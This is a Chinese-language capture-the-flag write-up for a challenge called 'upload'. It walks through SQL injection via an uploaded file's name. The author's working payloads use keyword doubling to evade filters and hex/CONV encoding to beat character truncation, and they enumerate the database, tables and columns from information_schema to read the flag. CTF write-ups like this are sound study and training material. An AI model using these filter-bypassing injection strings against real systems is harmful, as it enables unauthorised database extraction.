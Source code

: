 # upload
## 题目描述
如题目环境有问题，稍等片刻后刷新即可。
## 思路
http://220.249.52.133:59493  
点开题目链接，是个注册页面，一如既往的随便注册，然后登录，发现有回显，是把用户名回显了，并且有上传文件的地方：  
![avatar](./picture/upload_1.png)  
一开始以为是要在这个地方注入，因为和前端时间做的 unfinish 很相似，结果试了下，并不行，他直接把我用户名，毫无处理的回显出来了：  
![avatar](./picture/upload_2.png)  
题目是 upload，那应该是在上传文件上下功夫，尝试了一句话木马，并不知道访问路径，并且也没办法通过 bp 绕过后缀检查。然后想到文件名注入，这个在《代码审计》的第64页：  
>因为一般程序员都不会注意到对文件名进行过滤，但是又需要把文件名保存到数据库中，所以就会存在SQL注入漏洞。<  
如此，就是构造文件名了，首先直接尝试最简单的 select database()：  
0'+(select database())+'.jpg  
回显了0：  
![avatar](./picture/upload_3.png)  
难不成是存在过滤？再试试：  
0'+(selselectect DAtabase())+'.jpg  
还是回显0，以为是思路错了，就去看了 wp，发现这个思路没错，但是文件名要复杂些，因为该网站对文件名还是做了一些过滤的……  
```sql
0'+(selselectect CONV(substr(hex(dAtaBase()),1,12),16,10))+'  
```
***
这里稍作解释，selselectect 是为了绕过关键字过滤，后面的 from 是同样的道理。对数据库名进行 hex 编码是为了绕过字母截断，本题遇到字母就会进行截断，这与外面的 CONV() 函数的使用是一个道理，因为十六进制的表示中存在 a b c d e f 六个字母，会被截断。substr() 是为了绕过科学计数法的表示，当 substr(hex(dAtaBase()),1,13) 时，效果如下：  
![avatar](./picture/upload_4.png)  
这样，我们无法获得准确的数字。
***
![avatar](./picture/upload_5.png)  
先把得到的数字转十六进制，然后进行 hex 解码，发现是有意义的字母：web_up，继续找出数据库名，然后再找表名和列名即可：  
```sql
//表名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(table_name) frofromm information_schema.tables where table_schema='web_upload')),1,12),16,10))+'
//列名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(column_name) frofromm information_schema.columns where table_name='hello_flag_is_here')),1,12),16,10))+'
```
最后，拼接解码后的列名得到 flag：  
!!_@m_Th.e_F!lag  


## 补充知识
1. CONV(N, from_base, to_base)  
CONV() 函数的目的是把 N 从 from_base 进制转换为 to_base 进制。本题之所以用到，是因为本题会过滤掉数字之外的字符，并在此处截断，以至无法获得正确的答案。   
2. 本题得到的十进制数字必须先解码，然后再拼接，如果先拼接，再转十六进制、解码的话，会解码失败。
